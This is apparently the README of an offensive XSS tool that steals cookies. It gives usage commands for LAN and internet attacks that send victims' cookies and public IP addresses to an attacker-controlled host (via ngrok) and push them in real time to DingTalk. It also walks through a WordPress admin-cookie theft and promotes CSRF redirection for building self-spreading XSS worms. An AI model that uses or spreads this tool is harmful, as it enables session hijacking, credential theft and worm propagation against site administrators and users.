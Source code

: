 # XSS steals cookies
* The current version V3.4 updates the remote push of nails, so that you can receive victim information in real time on Android without having to face the host
* Update the redirection function, you can use CSRF to create XSS worm attacks
* Python version 3.6 or above
* Obtain the victim's public IP address and cookie
* Compatible with Windows or Linux
## usage method
  * View help information

      ```#python3 XSS_Tool_V3.4.py -h```

  ![图片名称](./Demo_image/Help3.png "Help")  

  * LAN attack

      ```#python3 XSS_Tool_V3.4.py -lp (Local port)```

  * Internet attack

      ```#python3 XSS_Tool_V3.4.py -t -lp (Local port) -rh (Remote host IP) -rp (Remote host port)```

## Effect demonstration 
 * We will use WordPress-6.1.1 for XSS attack simulation test
 * _If your machine has a public IP address, just listen to the local port_

# Use Extranet attack
* Enable port forwarding (Ngrok is used for demonstration)

    ![图片名称](./Demo_image/forwarding.png "Port forwarding")  


* Use Extranet attack

    ```#python3 XSS_Tool_V3.4.py -t -rh http://xxx.xxx.xxx -rp 10029```

    ![图片名称](./Demo_image/Internet2.png "Extranetattack")  


# Use Intranet attack [Do not push messages Test]
-----------------Hacker--------------------------
* You can use the - lp parameter to specify the port. If you do not write, the default port is 8888

```#python3 XSS_Tool_V3.4.py```

![图片名称](./Demo_image/Runing2.png "Run")  

* Copy payload and inject XXS injection point

![图片名称](./Demo_image/Hacking.png "Run")  

----------------Server Admin------------------------

* Normal status of administrator

![图片名称](./Demo_image/Admin_no_hack.png "Admin_no_hack")  

* The administrator was hacked to execute malicious code when viewing comments

![图片名称](./Demo_image/Admin_hacked2.png "Admin_hacked2")  

-----------------Hacker--------------------------
* Hacker gets the administrator's cookie

![图片名称](./Demo_image/Hack_Get_Cookie3.png "Hack_Get_Cookie")

# Use Intranet attack[Message push]
* @1.Use the parameter options - dt and - dk for push settings

```#python3 XSS_Tool_V3.4.py -dt xxxxx... -dk xxx```

![图片名称](./Demo_image/HackDT.png "Run")  

* @2.Or directly use the parameter dcf, provided that you have configured the parameters in the DingTalk.conf file


1.You must modify the parameters in the DingTalk.conf file to use the - dcf option

![图片名称](./Demo_image/DingTalk_Config.png "Run")  

2.The - dcf option can be used after configuration

```#python3 XSS_Tool_V3.4.py -dcf```

![图片名称](./Demo_image/Config_OK.png "Run")  

* Copy payload and inject XXS injection point



----------Injection is the same as the above demonstration steps---------------

* After the administrator cookie is obtained, it will be automatically pushed to the DingTalk platform

![图片名称](./Demo_image/PUSH.png "Run")  

* Android perspective

![图片名称](./Demo_image/Android.jpg "Run")  

# Use Intranet attack [XSS And CSRF Test]

* CSRF shooting range

![图片名称](./Demo_image/Login_Pikachu.png "Run")  

* Select the parameter - rd to redirect

![图片名称](./Demo_image/CSRF_XSS.png "Run")  

* The administrator accesses and executes malicious code and is redirected

![图片名称](./Demo_image/CSRF_Hacked.png "Run")  

##^^^You can create an XSS worm for network propagation